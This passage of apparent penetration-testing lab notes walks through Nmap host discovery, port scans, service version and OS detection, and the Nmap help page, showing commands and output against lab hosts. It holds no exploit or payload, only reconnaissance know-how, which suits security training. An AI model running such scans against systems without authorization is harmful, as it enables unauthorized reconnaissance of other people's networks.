Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.08 seconds ←
```

_Use the `-PS` option to send a TCP SYN ping to the target IP address._

`nmap -sn -PS 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:08 IST
Nmap scan report for 10.4.23.227
Host is up (0.0083s latency).

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds ←
```

_Perform a TCP SYN ping scan on port 22 to see if the host is reachable via SSH._

`nmap -sn -PS22 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:11 IST

Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.07 seconds ←
```

_Expand the scan to cover multiple ports, ranging from 1 to 1000, to detect if the host is up._

`nmap -sn -PS1-1000 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:12 IST
Stats: 0:00:13 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 6.00% done; ETC: 15:15 (0:03:24 remaining)
Stats: 0:00:16 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 60.65% done; ETC: 15:12 (0:00:10 remaining)
Nmap scan report for 10.4.23.227
Host is up (0.0080s latency).

Nmap done: 1 IP address (1 host up) scanned in 17.53 seconds ←
```

_Run a comprehensive port scan, including common ports like 80, 3389, and 445, to check the host's availability and services._

`nmap -PS80,3389,445 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:14 IST
Nmap scan report for 10.4.23.227

Host is up (0.0084s latency).

Not shown: 993 filtered ports

PORT       STATE   SERVICE ←
80/tcp     open    http
135/tcp    open    msrpc
139/tcp    open    netbios-ssn
445/tcp    open    microsoft-ds
3389/tcp   open    ms-wbt-server
49154/tcp  open    unknown
49155/tcp  open    unknown

Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds ←
```

_Attempt a TCP ACK ping scan to check for hosts behind a firewall._

`nmap -sn -PA 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:23 IST

Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.08 seconds ←
```

_Perform a TCP ACK ping scan on a specific port (3389) to determine if the host responds._

`nmap -sn -PA3389 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:24 IST

Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.08 seconds ←
```

_Use an ICMP Echo ping scan to check if the host is reachable with a standard ping._

`nmap -sn -PE 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:31 IST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn

Nmap done: 1 IP address (0 hosts up) scanned in 2.12 seconds ←
```

_Increase verbosity and timing in the scan to gather more information during the process._

`nmap -sn -v -T4 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:37 IST
Initiating Ping Scan at 15:37
Scanning 10.4.23.227 [4 ports]
Completed Ping Scan at 15:37, 2.05s elapsed (1 total hosts)
Nmap scan report for 10.4.23.227 [host down]
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.08 seconds
Raw packets sent: 8 (304B) | Rcvd: 0 (0B)
```

_Combine multiple SYN ping scans on specific ports, such as 21, 22, 25, 80, 445, 3389, and 8080, to detect the host status._

`nmap -sn -PS21,22,25,80,445,3389,8080 -T4 10.4.23.227`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 15:39 IST
Nmap scan report for 10.4.23.227
Host is up (0.0083s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

### Port Scanning (with Nmap) - Lab

_Attempt a basic Nmap scan on the target IP to check for live status and open ports._

`nmap 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:11 IST

Stats: 0:00:03 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 99.99% done; ETC: 18:11 (0:00:00 remaining)
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.11 seconds ←
```

**Explanation:** The initial scan suggests that the host is not responding to ping probes, which might indicate that ICMP is blocked.

_Use the `-Pn` option to disable host discovery and treat the host as if it is up, proceeding directly to the port scan._

`nmap -Pn 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:12 IST

Nmap scan report for 10.4.24.205

Host is up (0.0099s latency).

Not shown: 993 filtered ports

PORT        STATE     SERVICE
80/tcp      open      http
135/tcp     open      msrpc
139/tcp     open      netbios-ssn
445/tcp     open      microsoft-ds
3389/tcp    open      ms-wbt-server
49154/tcp   open      unknown
49155/tcp   open      unknown

Nmap done: 1 IP address (1 host up) scanned in 4.38 seconds ←
```

**Explanation:** The `-Pn` scan successfully detects several open ports, confirming the host is up and running, likely blocking ICMP.

_Perform a faster scan using the `-F` option to scan only the most common ports._

`nmap -Pn -F 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:16 IST
Nmap scan report for 10.4.24.205

Host is up (0.0100s latency).

Not shown: 93 filtered ports

PORT        STATE     SERVICE
80/tcp      open      http
135/tcp     open      msrpc
139/tcp     open      netbios-ssn
445/tcp     open      microsoft-ds
3389/tcp    open      ms-wbt-server
49154/tcp   open      unknown
49155/tcp   open      unknown

Nmap done: 1 IP address (1 host up) scanned in 1.92 seconds ←
```

**Explanation:** The `-F` option reduces the scan time by focusing on the 100 most common ports, which still reveals significant open services.

_Scan specific ports (80 and 8080) to quickly check their status._

`nmap -Pn -p80,8080 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:18 IST
Nmap scan report for 10.4.24.205

Host is up (0.0088s latency).

PORT        STATE     SERVICE
80/tcp      open      http ←
8080/tcp    filtered  http-proxy ←

Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

**Explanation:** Scanning specific ports reveals that port 80 is open, while port 8080 is filtered, indicating a firewall or similar security mechanism.

_Scan the localhost interface (127.0.0.1) for open ports using the fast scan option._

`nmap -F 127.0.0.1`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:19 IST
Nmap scan report for localhost (127.0.0.1)

Host is up (0.0000040s latency).

Not shown: 97 closed ports

PORT        STATE     SERVICE
3389/tcp    open      ms-wbt-server
8009/tcp    open      ajp13
10000/tcp   open      snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

**Explanation:** Scanning localhost reveals a few open services, which might be used locally by applications on the machine.

_Check the status of specific ports (80 and 8080) on the localhost._

`nmap -Pn -p80,8080 127.0.0.1`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:20 IST
Nmap scan report for localhost (127.0.0.1)

Host is up (0.000028s latency).

PORT        STATE     SERVICE
80/tcp      closed    http ←
8080/tcp    closed    http-proxy ←

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds ←
```

**Explanation:** Both ports 80 and 8080 are closed on localhost, indicating no services are listening on these ports locally.

_Perform a comprehensive scan on all ports (`-p-`) with aggressive timing (`-T4`) on the target IP._

`nmap -T4 -Pn -p- 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:22 IST
Nmap scan report for 10.4.24.205
Host is up (0.0091s latency).

Not shown: 65527 filtered ports ←

PORT        STATE     SERVICE
80/tcp      open      http
135/tcp     open      msrpc
139/tcp     open      netbios-ssn
445/tcp     open      microsoft-ds
3389/tcp    open      ms-wbt-server
49154/tcp   open      unknown
49155/tcp   open      unknown
49181/tcp   open      unknown

Nmap done: 1 IP address (1 host up) scanned in 874.55 seconds
```

**Explanation:** This exhaustive scan reveals more open ports, some previously undetected, providing a more complete picture of the target's services.

_Use a SYN scan (`-sS`) with the `-Pn` option to bypass the host discovery phase on another target IP._

`nmap -Pn -sS -F 10.10.23.4`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:47 IST
Nmap scan report for attackdefense.com (10.10.23.4)

Host is up (0.0000040s latency).

Not shown: 97 closed ports

PORT        STATE     SERVICE
3389/tcp    open      ms-wbt-server
8009/tcp    open      ajp13
10000/tcp   open      snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

**Explanation:** The SYN scan (`-sS`) is a stealthy scan that sends SYN packets to detect open ports, revealing additional services running on this target.

_Conduct a TCP Connect scan (`-sT`) on the target IP as an alternative to the SYN scan._

`nmap -Pn -sT 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:51 IST
Nmap scan report for 10.4.24.205

Host is up (0.0089s latency).

Not shown: 993 filtered ports

PORT        STATE     SERVICE
80/tcp      open      http
135/tcp     open      msrpc
139/tcp     open      netbios-ssn
445/tcp     open      microsoft-ds
3389/tcp    open      ms-wbt-server
49154/tcp   open      unknown
49155/tcp   open      unknown

Nmap done: 1 IP address (1 host up) scanned in 4.74 seconds
```

**Explanation:** The TCP Connect scan is a reliable but noisier scan option that fully establishes a TCP connection to identify open ports.

_Perform a UDP scan (`-sU`) on specific ports to detect open UDP services._

`nmap -Pn -sU -p53,137,138,139 10.4.24.205`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:57 IST

Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 50.00% done; ETC: 18:57 (0:00:02 remaining)

Nmap scan report for 10.4.24.205

Host is up.

PORT        STATE           SERVICE
53/udp      open|filtered   domain
137/udp     open|filtered   netbios-ns
138/udp     open|filtered   netbios-dgm
139/udp     open|filtered   netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 3.15 seconds
```

**Explanation:** UDP scans are useful for identifying services like DNS or NetBIOS, though results may show as "open|filtered" due to the nature of UDP and potential firewall configurations.

### Service Version and OS Detection (with Nmap) - Lab

_Check the current network configuration to identify the available network interfaces and IP addresses._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 10.1.0.13  netmask 255.255.0.0  broadcast 10.1.255.255
    ether 02:42:0a:01:00:0d  txqueuelen 0  (Ethernet)
    RX packets 139  bytes 12627 (12.3 KiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 107  bytes 313656 (306.3 KiB)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.31.214.2  netmask 255.255.255.0  broadcast 192.31.214.255 ←
    ether 02:42:c0:1f:d6:02  txqueuelen 0  (Ethernet)
    RX packets 18  bytes 1516 (1.4 KiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 0  bytes 0 (0.0 B)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
    inet 127.0.0.1  netmask 255.0.0.0
    loop  txqueuelen 1000  (Local Loopback)
    RX packets 24  bytes 2208 (2.1 KiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 24  bytes 2208 (2.1 KiB)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Check the available options in Nmap by displaying the help page._

`nmap --help`:
```
Nmap 7.94SVN ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery 
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes] 
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports sequentially - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info ←
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes) ←
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories.
OS DETECTION:
  -O: Enable OS detection ←
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively ←
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster)
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU)
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename. 
  -oA <basename>: Output in the three major formats at once
  -v: Increase verbosity level (use -vv or more for greater effect)
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state
  --open: Only show open (or possibly open) ports
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

_Use Nmap to perform a simple ping scan (`-sn`) on the subnet to discover active hosts._

`nmap -sn 192.31.214.0/24`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 16:34 UTC
Nmap scan report for linux (192.31.214.1)
Host is up (0.000051s latency).
MAC Address: 02:42:34:BE:1F:23 (Unknown)
Nmap scan report for target-1 (192.31.214.3) ←
Host is up (0.000076s latency). ←
MAC Address: 02:42:C0:1F:D6:03 (Unknown)
Nmap scan report for attackdefense.com (192.31.214.2)
Host is up.

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.01 seconds
```

_Perform a SYN scan (`-sS`) on the identified target IP to check for open ports among the first 1000 common ports._

`nmap -sS 192.31.214.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 16:35 UTC
Nmap scan report for target-1 (192.31.214.3)
Host is up (0.000009s latency).
All 1000 scanned ports on target-1 (192.31.214.3) are closed ←
MAC Address: 02:42:C0:1F:D6:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

_Expand the scan to include all 65535 ports (`-p-`) to ensure no open ports are missed, and use the `-T4` option for faster execution._

`nmap -sS -p- -T4 192.31.214.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 16:36 UTC
Nmap scan report for target-1 (192.31.214.3)
Host is up (0.000000s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
6421/tcp  open  nim-wan ←
41288/tcp open  unknown
55413/tcp open  unknown
MAC Address: 02:42:C0:1F:D6:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

_Refine the scan to detect versions of the open services (`-sV`) on all ports (`-p-`) to gather more detailed information._

`nmap -sS -sV -p- -T4 192.31.214.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 16:37 UTC
Nmap scan report for target-1 (192.31.214.3)
Host is up (0.000009s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE  VERSION
6421/tcp  open  mongodb  MongoDB 2.6.10 ←
41288/tcp open  memcached Memcached
55413/tcp open  ftp      vsftpd 3.0.3
MAC Address: 02:42:C0:1F:D6:03 (Unknown)
Service Info: OS: Unix

Nmap done: 1 IP address (1 host up) scanned in 12.47 seconds
```

_Enhance the scan further to include OS detection (`-O`) and service version detection (`-sV`)._

`nmap -sS -sV -O -p- -T4 192.31.214.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 16:40 UTC
Nmap scan report for target-1 (192.31.214.3)
Host is up (0.000040s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE  VERSION
6421/tcp  open  mongodb  MongoDB 2.6.10
41288/tcp open  memcached Memcached
55413/tcp open  ftp      vsftpd 3.0.3
MAC Address: 02:42:C0:1F:D6:03 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). ←
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=11/28%OT=6421%CT=1%CU=30247%PV=N%DS=1%DC=D%G=Y%M=0242C
OS:%TM=65661813%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10%TI=Z%CI=Z%I
OS:=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4ST11NW7%O4=M5B4ST11NW
OS:7%O5=M5B4ST11NW7%O6=M5B4ST11NW)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=
OS:FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=40%S=A%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=Z%A=Z%F=
OS:AR%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S%F=AR%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S%F=AR%RD=0%Q=)T7(R=Y%DF=Y%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:UCK=G%RUD=G)IE(R=Y%DF=Y%T=40%CD=S)
Network Distance: 1 hop
Service Info: OS: Unix ←

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.07 seconds
```

_Perform an aggressive OS and service detection scan using `--version-intensity 8` and `--osscan-guess` to improve accuracy._

`nmap -sS -sV --version-intensity 8 -O --osscan-guess -p- -T4 192.31.214.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 16:45 UTC
Nmap scan report for target-1 (192.31.214.3)
Host is up (0.000041s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE  VERSION
6421/tcp  open  mongodb  MongoDB 2.6.10 ←
41288/tcp open  memcached Memcached
55413/tcp open  ftp      vsftpd 3.0.3
MAC Address: 02:42:C0:1F:D6:03 (Unknown)
Aggressive OS guesses: Linux 2.6.32 - 3.10 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.18 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%) ←
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=11/28%OT=6421%CT=1%CU=34589%PV=N%DS=1%DC=D%G=Y%M=0242
OS:C%TM=656618195%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10%TI=Z%CI=Z
OS:%II%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4ST11NW7%O4=M5B4ST11N
OS:W7%O5=M5B4ST11NW7%O6=M5B4ST11NW)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5
OS:=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=A%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=Z%A=Z%F
OS:=AR%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S%F=AR%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S%F=AR%RD=0%Q=)T7(R=Y%DF=Y%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:UCK=G%RUD=G)IE(R=Y%DF=Y%T=40%CD=S)
Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.02 seconds
```

### Nmap Scripting Engine (NSE) - Lab

_Identify the network interfaces and their configuration on the target machine to understand the network environment._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 10.1.0.15  netmask 255.255.0.0  broadcast 10.1.255.255
    ether 02:42:0a:01:00:0f  txqueuelen 0  (Ethernet)
    RX packets 145  bytes 13001 (12.6 KiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 115  bytes 314124 (306.7 KiB)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.224.77.2  netmask 255.255.255.0  broadcast 192.224.77.255
    ether 02:42:c0:e0:4d:02  txqueuelen 0  (Ethernet)
    RX packets 19  bytes 1626 (1.5 KiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 0  bytes 0 (0.0 B)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
    inet 127.0.0.1  netmask 255.0.0.0
    loop txqueuelen 1000  (Local Loopback)
    RX packets 24  bytes 2208 (2.1 KiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 24  bytes 2208 (2.1 KiB)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Check the available options in Nmap by displaying the help page._

`nmap --help`:
```
Nmap 7.94SVN ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery 
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes] 
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports sequentially - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default ←
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories ←
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories. ←
OS DETECTION:
  -O: Enable OS detection
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster)
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU)
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename. 
  -oA <basename>: Output in the three major formats at once
  -v: Increase verbosity level (use -vv or more for greater effect)
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state
  --open: Only show open (or possibly open) ports
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
